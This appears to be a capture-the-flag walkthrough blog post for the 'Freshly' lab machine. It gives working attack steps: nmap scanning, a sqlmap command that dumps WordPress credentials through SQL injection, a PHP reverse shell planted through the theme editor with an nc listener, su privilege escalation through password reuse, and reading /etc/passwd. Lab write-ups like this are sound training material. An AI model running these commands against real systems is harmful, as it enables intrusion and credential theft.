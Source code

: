 ```yaml
---
layout: blog_item
title: "Freshly Walkthrough"
date: "2023-12-14"
author: Dhruv Ambaliya
description: 'Freshly - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa-solid fa-fire">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The goal of this challenge is to break into the machine via the web and find the secret hidden in a sensitive file. If you can find the secret, send me an email for verification.

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 10.0.1.109

{% endhighlight %}


### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>64 Apache httpd 2.4.7 ((Ubuntu))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 443</code></p></pc>
           </td>
           <td>
               <pc><p>HTTPS</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 8080</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd</p></pc>
           </td>
        </tr>
        </tbody>

</table>
</div>

### HTTP Enumeration

Enumeration of port 80, discovered <code>login.php</code>:

![dirbuster](/img/blog/freshly/dirbuster.png)

![login form sqli](/img/blog/freshly/login.png)

## SQL Injection  

The discovered form was vulnerable to a time-based [SQL injection](/penetration-testing/web-app/sql-injection/), SQLMap was used to expose the following databases:


{% highlight bash %}

available databases [7]:
[*] information_schema
[*] login
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] users
[*] wordpress8080

{% endhighlight %}

SQLMap was used to dump the **wordpress8080** database:


{% highlight bash %}

sqlmap -o -u "http://10.0.1.109/login.php" --forms -D wordpress8080 -T users --risk 1 --dbms=mysql --dump

{% endhighlight %}

Discovered credentials:

{% highlight bash %}

Database: wordpress8080
Table: users
[1 entry]
+----------+---------------------+
| username | password            |
+----------+---------------------+
| admin    | SuperSecretPassword |
+----------+---------------------+

{% endhighlight %}

## Wordpress - Reverse PHP Shell

Wordpress was accessible on port <code>443</code> and port <code>8080</code>. Authentication was successful using the discovered credentials and a PHP reverse shell was introduced to the sites source code via the wordpress theme editor.

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Username</th>
      <th>Password</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><b>admin</b></p></pc>
           </td>
           <td>
               <pc><p><code>SuperSecretPassword</code></p></pc>
           </td>
        </tr>
      </tbody>

</table>
</div>

![wordpress reverse php shell](/img/blog/freshly/wordpress-php-shell.png)

A reverse shell successfully connected back:

{% highlight bash %}

[root:~]# nc -n -v -l -p 443           
listening on [any] 443 ...
connect to [10.0.1.110] from (UNKNOWN) [10.0.1.109] 37912
Linux Freshly 3.13.0-45-generic #74-Ubuntu SMP Tue Jan 13 19:37:48 UTC 2015 i686 i686 i686 GNU/Linux
 13:26:49 up 46 min,  0 users,  load average: 0.00, 0.01, 0.46
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$

{% endhighlight %}


## Privilege Escalation

Account credential reuse from the Wordpress admin password <code>SuperSecretPassword</code> allowed <code>su -</code> to escalate privileges to root.

{% highlight bash %}

$ python -c 'import pty;pty.spawn("/bin/bash")'
daemon@Freshly:/$ id
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)

daemon@Freshly:/$ su -
su -
Password: SuperSecretPassword

root@Freshly:~# id
id
uid=0(root) gid=0(root) groups=0(root)

{% endhighlight %}

## Post Exploitation Enumeration  

The file <code>/etc/passwd</code> contained the text:

{% highlight bash %}

root@Freshly:/# tail -n 5 /etc/passwd
tail -n 5 /etc/passwd
user:x:1000:1000:user,,,:/home/user:/bin/bash
mysql:x:103:111:MySQL Server,,,:/nonexistent:/bin/false
candycane:x:1001:1001::/home/candycane:
# YOU STOLE MY SECRET FILE!
# SECRET = "NOBODY EVER GOES IN, AND NOBODY EVER COMES OUT!"

{% endhighlight %}

Additionally the file <code>/etc/shadow</code> had incorrect permissions allowing a non privileged user read access, allowing for offline password cracking using Hashcat / JTR.

Thanks for the VM :)
